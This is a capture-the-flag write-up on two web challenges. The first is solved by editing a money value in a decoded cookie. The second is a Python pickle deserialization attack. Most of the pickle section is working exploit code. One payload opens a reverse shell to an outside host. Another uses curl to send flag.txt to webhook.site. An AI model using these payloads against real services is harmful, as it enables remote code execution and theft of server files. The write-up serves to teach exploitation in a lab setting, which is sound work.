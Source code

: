 # Cookie Store
* In cookie store, we just need to decode the cookie from our web browser. 
* After decoding it, we found out that the money we have is kept inside the cookie. We can simply change the JSON object with a really high amount of money, and we will be able to purchase the flag cookie

# Pickle Store
* In this store, things are a bit different, although we are still storing the money inside the cookie, but now there is an anti_tamper_hmac. This means that we cannot modify the cookie like before, and we need to think of a new way to complete the challenge.

* Upon further inspection, we found out that the client is sending the server a packed pickled message with encoded JSON objects. And the server is unpacking the pickled message and retrieving the money and history and comparing the hmac.

* But we know that pickle itself is not secure at all. An attacker can create a pickled message that when unpacked, it will create a reverse shell to the attacker! 
* This can be done with the following python code
```python
import pickle
import base64

pack = lambda x : base64.b64encode(pickle.dumps(x))
unpack = lambda x : pickle.loads(base64.b64decode(x))

class POC(object):
    def __reduce__(self):
        import os
        command = '''
                  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("webhook",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
                  '''.strip()
        return (os.system, (command,))

print(pack(POC()))
# unpack(pack(POC()))
```

* To get the flag, we just have to cat the flag.txt instead of creating a reverse shell, we can do that with the following
```python
class POC(object):
    def __reduce__(self):
        import os
        s = "curl https://webhook.site/sfsfsaasdfsdf -d @- < flag.txt"
        return (os.popen, (s,))
print(pack(POC()))
```

* This malicious payload will be run on the sever, since it is a vulnerability within pickle itself, and we will then get the flag.
